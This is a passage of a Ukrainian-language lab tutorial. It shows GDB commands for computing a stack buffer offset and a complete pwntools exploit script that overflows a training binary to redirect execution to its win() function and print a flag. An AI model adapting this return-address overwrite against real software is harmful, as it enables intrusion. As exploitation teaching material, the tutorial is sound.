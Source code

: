 
### Перевірка в GDB:

```gdb
(gdb) break main
(gdb) run
(gdb) disassemble
```

**Шукайте:**
```asm
sub    rsp, 0xNNN    ; Скільки виділено
lea    rax, [rbp-0xMM] ; Де buf
```

**Розрахунок:**
```
Offset = (RBP - адреса_buf) + 8
```

### Крок 3: Створіть правильний exploit

Файл `exploit.py`:

```python
#!/usr/bin/env python3
from pwn import *

# Завантажуємо бінарник
elf = ELF('../build/stage05_demo_with_hint', checksec=False)

# Отримуємо адресу win()
win_addr = elf.symbols['win']
log.info(f"Адреса win(): {hex(win_addr)}")

# Запускаємо процес
io = process('../build/stage05_demo_with_hint')

# OFFSET наданий в statement: 72 байти
OFFSET = 72

# Створюємо payload
padding = b'A' * OFFSET        # 72 байти padding
address = p64(win_addr)        # 8 байт адреса

payload = padding + address
log.info(f"Довжина payload: {len(payload)} байт")
log.info(f"Payload: padding({OFFSET}) + address({hex(win_addr)})")

# Відправляємо
io.send(payload)

# Отримуємо прапор
flag = io.recvall(timeout=1)
log.success(f"Прапор: {flag.decode().strip()}")

io.close()
```
